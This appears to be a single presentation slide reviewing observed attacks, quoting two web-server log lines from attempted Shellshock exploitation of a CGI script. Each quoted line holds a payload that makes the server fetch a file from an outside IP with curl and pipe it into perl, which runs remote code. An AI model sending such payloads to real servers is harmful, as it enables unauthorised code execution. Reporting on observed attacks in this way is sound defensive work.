

# Our Most Significant Attack
WEB-CGI were attempted Shellshock attacks
Bash history revealed this:

“GET /cgi-bin/test/test.cgi HTTP/1.0” 404 219 “() {:; }; curl http://202.28.77.53/~prajaks/310482/index.png | perl”
“GET /cgi-bin/test/test.cgi HTTP/1.0” 200 92 “() {:; }; curl http://202.28.77.53/~prajaks/310482/index.png | perl”